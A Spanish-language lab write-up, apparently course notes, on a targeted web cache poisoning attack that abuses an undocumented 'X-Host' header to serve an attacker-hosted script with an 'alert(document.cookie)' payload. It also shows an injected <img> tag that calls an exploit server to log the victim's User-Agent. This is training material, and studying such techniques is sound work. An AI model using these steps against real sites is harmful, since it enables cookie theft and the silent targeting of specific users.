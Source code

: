En esta clase profundizamos en un ataque avanzado de Web Cache Poisoning en el que es necesario descubrir una cabecera no documentada —en este caso ‘**X-Host**‘— para manipular cómo el servidor genera contenido que posteriormente se almacena en caché.

Tras identificar el punto vulnerable y confirmar que la cabecera ‘**X-Host**‘ afecta a la generación de URLs para recursos estáticos, utilizamos dicha cabecera para referenciar un archivo JavaScript alojado en un servidor controlado por el atacante, el cual contiene un payload como ‘**alert(document.cookie)**‘.

Sin embargo, el laboratorio añade una capa adicional de complejidad: el uso de la cabecera ‘**Vary: User-Agent**‘ implica que la caché discrimina las respuestas en función del navegador. Para asegurar que el contenido envenenado impacta a la víctima, es necesario identificar su User-Agent, lo cual conseguimos mediante una petición enviada desde un comentario malicioso publicado en la web.

Una vez determinado el User-Agent de la víctima, se ajusta la petición para que coincida con dicho valor, permitiendo que el servidor entregue la versión cacheada del recurso malicioso únicamente a esa víctima.

Esta clase demuestra cómo el envenenamiento de caché puede ser altamente dirigido y silencioso, explotando cabeceras olvidadas y manipulaciones de cliente que normalmente pasarían desapercibidas.

Solucion
Repetimos los pasos y aqui vamos a utilizar la cabecera (X-Host:)
![[Pasted image 20250821211041.png]]
el cual me permite controlar el dominio donde se redirige para cargar el recurso resource/js/tracking.js
asi que configuramos el exploit
![[Pasted image 20250821212043.png]]
luego tenemos que redirigirlo a un user-Agent asi que podemos utilizar un truco en algun post poniendo lo siguiente (<img src="https://exploit-0a930053038b901f80741be201a40053.exploit-server.net" />)
![[Pasted image 20250821212203.png]]
nos fijamos en los logs
![[Pasted image 20250821212431.png]]
copiamos y pegamos en la BS y recargamos la pagina
![[Pasted image 20250821233755.png]]




